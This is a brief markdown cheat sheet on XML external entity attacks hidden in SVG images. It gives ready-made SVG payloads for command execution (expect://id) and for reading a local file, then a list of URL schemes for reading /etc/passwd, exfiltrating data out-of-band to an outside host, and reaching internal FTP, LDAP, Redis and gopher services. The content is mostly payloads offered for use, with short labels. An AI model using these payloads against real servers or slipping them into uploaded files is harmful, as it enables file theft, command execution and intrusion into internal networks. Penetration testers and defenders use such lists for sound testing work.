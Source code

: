 ### XXE inside SVG
`RCE`
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://id"></image>
</svg>
```
`LFI`
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

#### [source](https://github.com/payloadbox/xxe-injection-payload-list)

### Exploitable Protocols

File: could be used to read local file on the server
	
	file:///etc/passwd

HTTP(s): useful in OOB Data Exfiltration
	
	http(s)://securityidiots.com/lol.xml

FTP: useful in OOB Data Exfiltration & hitting the internal FTP service which is behind NAT
	
	ftp://securityidiots.com/lol.xml

SFTP: hitting the internal SFTP service which is behind NAT
	
	sftp://securityidiots.com:11111/

TFTP: hitting the internal TFTP service which is behind NAT
	
	tftp://securityidiots.com:12346/lol.xml

DICT : could also be used to make requests to internal services
	
	dict://ip:22/_XXX
	
	dict://ip:6379/_XXX

NETDOC: This could be used as an alternative to file in JAVA based Servers.
	
	netdoc:/etc/passwd

LDAP: could be used to query internal LDAP Service.
	
	ldap://localhost:11211/%0astats%0aquit

GOPHER:
	
	gopher://<host>:<port>/_<gopher-path>
